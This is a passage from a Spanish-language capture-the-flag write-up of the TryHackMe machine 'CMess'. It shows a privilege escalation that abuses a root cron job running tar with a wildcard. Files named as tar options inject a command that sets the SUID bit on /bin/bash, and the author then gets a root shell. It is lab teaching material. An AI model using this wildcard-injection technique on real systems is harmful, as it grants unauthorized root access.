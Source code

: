 ```bash
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

vemos que la tarea nos manda al directorio /home/andre/backup y comprime con tar todo lo que contiene dicho directorio. Por lo tanto lei este articulo que me servira para escalar privilegios

```bash
https://www.hackingarticles.in/linux-privilege-escalation-by-exploiting-cron-jobs/
```

asi lo hare de la siguiente manera

```bash
andre@cmess:~/backup$ echo 'chmod u+s /bin/bash' > test.sh
andre@cmess:~/backup$ echo "" > "--checkpoint-action=exec=sh test.sh"
andre@cmess:~/backup$ echo "" > --checkpoint=1
```

esperamos un rato y vemos si se ejecuto la tarea y le dio permisos de suid al binario bash

```bash
andre@cmess:~/backup$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1037528 May 16  2017 /bin/bash
```

![Untitled](/assets/images/2022-02-12-writeup-maquina-thm-cmess/Untitled%2013.png)

y nos volvemos root de la siguiente manera

```bash
andre@cmess:~/backup$ /bin/bash -p
bash-4.3# id
uid=1000(andre) gid=1000(andre) euid=0(root) groups=1000(andre)
bash-4.3# whoami
root
bash-4.3#
```

gracias por leer este writeup, nos vemos AbelJM.